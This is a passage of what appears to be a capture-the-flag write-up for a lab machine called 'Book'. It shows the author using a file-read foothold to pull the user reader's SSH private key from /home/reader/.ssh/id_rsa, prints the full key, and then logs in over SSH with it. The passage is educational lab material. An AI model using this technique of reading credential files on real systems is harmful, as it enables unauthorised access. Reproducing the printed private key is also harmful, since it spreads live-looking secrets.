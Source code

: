 `/var/www/html/db.php` returns nothing (and breaks the shell).

### File System Enumeration

After failing to read the php source, I thought about what else I might grab. Since I could see the `/etc/passwd` file, I knew that reader was the only interactive user on the box. I checked for an SSH key, and got a hit:

```

book> /home/reader/.ssh/id_rsa
-----BEGIN      RSA     PRIVATE KEY-----
MIIEpQIBAAKCAQEA2JJQsccK6fE05OWbVGOuKZdf0FyicoUrrm821nHygmLgWSpJ
G8m6UNZyRGj77eeYGe/7YIQYPATNLSOpQIue3knhDiEsfR99rMg7FRnVCpiHPpJ0
WxtCK0VlQUwxZ6953D16uxlRH8LXeI6BNAIjF0Z7zgkzRhTYJpKs6M80NdjUCl/0
ePV8RKoYVWuVRb4nFG1Es0bOj29lu64yWd/j3xWXHgpaJciHKxeNlr8x6NgbPv4s
7WaZQ4cjd+yzpOCJw9J91Vi33gv6+KCIzr+TEfzI82+hLW1UGx/13fh20cZXA6PK
75I5d5Holg7ME40BU06Eq0E3EOY6whCPlzndVwIDAQABAoIBAQCs+kh7hihAbIi7
3mxvPeKok6BSsvqJD7aw72FUbNSusbzRWwXjrP8ke/Pukg/OmDETXmtgToFwxsD+
McKIrDvq/gVEnNiE47ckXxVZqDVR7jvvjVhkQGRcXWQfgHThhPWHJI+3iuQRwzUI
tIGcAaz3dTODgDO04Qc33+U9WeowqpOaqg9rWn00vgzOIjDgeGnbzr9ERdiuX6WJ
jhPHFI7usIxmgX8Q2/nx3LSUNeZ2vHK5PMxiyJSQLiCbTBI/DurhMelbFX50/owz
7Qd2hMSr7qJVdfCQjkmE3x/L37YQEnQph6lcPzvVGOEGQzkuu4ljFkYz6sZ8GMx6
GZYD7sW5AoGBAO89fhOZC8osdYwOAISAk1vjmW9ZSPLYsmTmk3A7jOwke0o8/4FL
E2vk2W5a9R6N5bEb9yvSt378snyrZGWpaIOWJADu+9xpZScZZ9imHHZiPlSNbc8/
ciqzwDZfSg5QLoe8CV/7sL2nKBRYBQVL6D8SBRPTIR+J/wHRtKt5PkxjAoGBAOe+
SRM/Abh5xub6zThrkIRnFgcYEf5CmVJX9IgPnwgWPHGcwUjKEH5pwpei6Sv8et7l
skGl3dh4M/2Tgl/gYPwUKI4ori5OMRWykGANbLAt+Diz9mA3FQIi26ickgD2fv+V
o5GVjWTOlfEj74k8hC6GjzWHna0pSlBEiAEF6Xt9AoGAZCDjdIZYhdxHsj9l/g7m
Hc5LOGww+NqzB0HtsUprN6YpJ7AR6+YlEcItMl/FOW2AFbkzoNbHT9GpTj5ZfacC
hBhBp1ZeeShvWobqjKUxQmbp2W975wKR4MdsihUlpInwf4S2k8J+fVHJl4IjT80u
Pb9n+p0hvtZ9sSA4so/DACsCgYEA1y1ERO6X9mZ8XTQ7IUwfIBFnzqZ27pOAMYkh
sMRwcd3TudpHTgLxVa91076cqw8AN78nyPTuDHVwMN+qisOYyfcdwQHc2XoY8YCf
tdBBP0Uv2dafya7bfuRG+USH/QTj3wVen2sxoox/hSxM2iyqv1iJ2LZXndVc/zLi
5bBLnzECgYEAlLiYGzP92qdmlKLLWS7nPM0YzhbN9q0qC3ztk/+1v8pjj162pnlW
y1K/LbqIV3C01ruxVBOV7ivUYrRkxR/u5QbS3WxOnK0FYjlS7UUAc4r0zMfWT9TN
nkeaf9obYKsrORVuKKVNFzrWeXcVx+oG3NisSABIprhDfKUSbHzLIR4=
-----END        RSA     PRIVATE KEY-----

```

### SSH

With that key, I could SSH in as reader:

```

root@kali# ssh -i ~/id_rsa_book_reader reader@10.10.10.176
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Feb 28 03:55:47 UTC 2020

  System load:  0.02               Processes:            146
  Usage of /:   26.6% of 19.56GB   Users logged in:      1
  Memory usage: 25%                IP address for ens33: 10.10.10.176
  Swap usage:   0%
 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

114 packages can be updated.
0 updates are security updates.
```